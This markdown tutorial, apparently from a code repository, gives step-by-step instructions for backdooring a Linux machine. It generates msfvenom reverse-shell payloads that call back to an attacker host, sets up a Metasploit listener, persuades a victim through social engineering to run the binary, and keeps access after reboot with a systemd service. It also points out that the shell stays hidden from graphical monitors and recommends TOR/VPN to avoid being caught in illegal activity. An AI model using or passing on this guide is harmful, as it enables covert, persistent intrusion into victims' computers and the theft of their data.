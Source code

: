 # Backdoor to any Linux machine

**Myth:** It is said that Linux is secure and hasn't any viruses etc. Let's take a look. There is a general claim that no need for Antivirus software is required either. Well...

We won't create a true virus here. Just a backdoor. However, it opens up many possibilities for further hostile actions against Linux victim machines, including polluting the target Linux machine with multiple nasty viruses.

This is just a short tecnical demonstration without any true hostile attempts. Utilizing the method requires social engineering tactics, as well.

This method does not require any server software running on the victim's Linux machine. Just a simple client machine is OK.

**This tutorial assumes you will gain access to `sudo` or `root` terminal on victim's Linux machine by using social engineering tactics.**

--------------------

## How-to

**1) Generating backdoor.** Generate a simple Linux backdoor payload. On attacker machine, execute either:

A) Linux x86 binary backdoor payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<my_global_ip> lport=<my_global_port> -f elf -a x86 > ~/reverse_backdoor'
```

B) or alternatively generate a shell script backdoor payload:

```
msfvenom -p cmd/unix/reverse_bash LHOST=<my_global_ip> LPORT=<my_global_port> -f raw > reverse_backdoor_bash.sh
```

--------------------

**2) Router settings.** If you are behind a router, do PAT (Port Address Translation) where incoming connections to your router are coming from `<my_global_port>`. Let the router forward those to `<my_local_port>` in your local network.

**3) Metasploit listener script.** On your attack machine, add following file (edit contents as needed) and save it as 'backdoor-listener.rc'

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <my_local_ip>
set lport <my_local_port>
exploit

This is a metasploit script file we will utilize later. Please pay attention to `<my_local_ip>` and `<my_local_port>` values above.

---------------------------

<my_global_ip>   = IPv4 which is reachable from outside (WAN IPv4), usually provided by your ISP
<my_global_port> = Port number which is accessible from outside (WAN) networks
<my_local_ip>    = IPv4 used by your attack machine on the local network, usually static one or provided by a router
<my_local_port>  = Port number which is accessible on your local network

---------------------------

**4) Start Metasploit listener.** Run the above Metasploit script file with `sudo msfconsole -r backdoor-listener.rc` and keep the listener open on your Linux attack machine.

**5) Victim enticement - execution of the backdoor.** Send msfvenom-generated `reverse_backdoor` binary executable to the Linux victim and encourage him/her to execute it. Requires social engineering tactics.

**6) Who am i and which is my shell?** Once you have connection to the victim's Linux machine, run `whoami`, after which run `shell`. Both in meterpreter console view.

**7) Open Python-based Bash pseudo-shell.** We assume that the victim has python environment. On the opened empty shell view, just run the following commands (we assume the current user's shell is `/bin/bash`):

```
which python
python -c "import pty; pty.spawn('/bin/bash');"
```

On that code above, we check python binary existence on the Linux victim machine. If OK, then you can open bash with pseudo terminal python function.

**8) Prepare your foothold on victim's machine - persistence.** On victim's machine, copy 'reverse_backdoor' binary into `/usr/local/bin/` folder, and run

```
chmod +x /usr/local/bin/reverse_backdoor
```

**9) Add new auto-starting systemd service** Now, insert a new systemd service file 'reverse-backdoor.service' into `/usr/lib/systemd/system/` as follows:

echo -e "[Unit]\nDescription=SSH backdoor\nAfter=network.target network-online.target\n\n[Service]\nType=oneshot\nRemainAfterExit=yes\n\nExecStart=/usr/local/bin/reverse_backdoor\nExecStop=/usr/local/bin/reverse_backdoor\n\n[Install]\nWantedBy=multi-user.target" > /usr/lib/systemd/system/reverse-backdoor.service

**10) Enable the systemd service.** Run

```
sudo systemctl enable reverse-backdoor.service
```

**11) Test the systemd service.** To check if the service file succeeds, check the output of:

```
sudo systemctl start reverse-backdoor.service
```

**12) You are able to connect after victim's reboot.** If Ok, you should be able to login to the victim's Linux machine after rebooting it. Just make sure you have Metasploit TCP Handler/Backdoor listener on stand-by on your Linux attack machine.

-----------------------------------------

**Contents of /usr/lib/systemd/system/reverse-backdoor.service**

The following systemd service file contents is supposed to be added to `/usr/lib/systemd/system/reverse-backdoor.service` on victim's Linux machine.

```
[Unit]
Description=Backdoor
After=network.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/home/penguin/reverse_backdoor
ExecStop=/home/penguin/reverse_backdoor

[Install]
WantedBy=multi-user.target
```
-----------------------------------------

**Systemd vs. init**

Of course, you can adapt this systemd service file as `init` script as well. However, majority of Linux distributions come with systemd nowadays, except for Gentoo etc.

**Testing scope**

The instructions has been tested and work as expected. You gain root access on the victim's Linux machine, no matter which network the victim has connected to. According to my remote tester (who was behind NAT), the opened hostile bash shell process is not visible on graphical system monitor view (this applies to XFCE, at least).

Victim can still detect the hostile shell process, other processes and opened network sockets with `netstat/sockstat` commands. However, distinguishing them from friendly processes is another thing...

-----------------------------------------

Simple attack schema:

```
<victim's Linux machine>  <--->  <ISP, etc.>  <--->  <your router>  <--->  <your attack Linux machine>

 <payload executable>                                                        <backdoor listener>
                  |->>       <my_global_ip>  <------------->  <my_local_ip>   <<-|
                  |->>     <my_global_port>  <------------->  <my_local_port> <<-|

    <execute file>      <--------------------------------------------->   <access victim's machine>
                            <<- valuable data, malicious commands ->>
```

In hardened scenarios, using TOR/VPN is recommended to avoid getting caught if illegal activies are performed.

-----------------------------------------
